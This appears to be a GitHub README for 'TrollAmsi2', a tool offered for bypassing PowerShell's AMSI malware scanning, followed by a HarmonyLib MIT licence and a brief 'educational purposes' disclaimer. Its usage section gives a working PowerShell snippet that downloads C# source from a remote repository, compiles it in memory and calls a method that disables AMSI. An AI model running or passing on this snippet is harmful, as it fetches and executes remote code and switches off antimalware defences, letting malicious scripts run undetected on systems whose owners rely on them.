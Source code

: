 # TrollAmsi2
Bypass powershell amsi 
  
## Usage 
```
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
